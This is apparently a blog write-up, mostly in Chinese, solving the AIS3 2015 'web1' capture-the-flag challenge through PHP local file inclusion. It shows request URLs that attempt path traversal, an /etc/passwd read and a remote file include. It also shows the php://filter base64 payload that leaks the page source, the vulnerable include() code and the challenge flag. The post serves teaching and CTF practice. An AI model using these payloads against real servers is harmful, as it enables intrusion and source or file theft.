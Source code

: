 ```yaml
---
layout: post
title: 'AIS3 2015 Writeup: web1'
date: 2015-07-27 12:00
comments: true
tags: [ais3, ais3-2015]
categories: [post-ctf]
---
```

## Local File Inclusion (LFI) vulnerability

Keynote:

- php:// — Accessing various I/O streams

Reference:

- http://security.stackexchange.com/questions/90724/reading-php-comments-using-php-page-that-open-text-files-ctf
- https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Tools:

- Base64 Online Decode https://www.base64decode.org/

瀏覽 http://52.69.163.194/web1/?page=about 發現內容是 include 自 about.php

```
http://52.69.163.194/web1/about.php
```

發現輸入相對路徑去讀取檔案是不可行的，php 出錯而沒有輸出結果

```
http://52.69.163.194/web1/?page=../web1/about
```

想要讀取 /etc/passwd 也不可行

```
http://52.69.163.194/web1/?page=/etc/passwd 
```

嘗試 include remote file 也不可行，allow_url_include 可能沒有開

```
http://52.69.163.194/web1/?page=http://somewhere/hackfile.php
```

最後解法是透過 php://filter 強迫 php 在 include file 之前，先把該檔案用 base64 編碼，之後網頁就吐出一堆 base64 文字串，再將文字串拿去 decode，就可以看到 php 原始碼，flag 就藏在裡面

	http://52.69.163.194/web1/?page=php://filter/convert.base64-encode/resource=index

	PGEgaHJlZj0nP3BhZ2U9YWJvdXQnPiBhYm91dCA8L2E+IDxiciAvPgo8YSBocmVmPSc/cGFnZT10ZXN0Jz4gdGVzdCA8L2E+IDxiciAvPgo8YnI+Cjxicj4KPD9waHAKCiAgICAgICAgJHBhZ2UgPSAkX0dFVFsncGFnZSddOwoKICAgICAgICAkcGFnZSA9ICRwYWdlIC4gJy5waHAnOwogICAgICAgICRwYWdlID0gc3RyX3JlcGxhY2UoIi4uLyIsICIiLCAkcGFnZSk7CiAgICAgICAgaW5jbHVkZSggJHBhZ2UgKTsKCiAgICAgICAgLy8gdGhlIGtleSBpcyBBSVMze3BocF93cmFwcGVyX3JvY2tzfQ==

decode:

	<a href='?page=about'> about </a> <br />
	<a href='?page=test'> test </a> <br />
	<br>
	<br>
	<?php

	        $page = $_GET['page'];

	        $page = $page . '.php';
	        $page = str_replace("../", "", $page);
	        include( $page );

	        // the key is AIS3{php_wrapper_rocks}
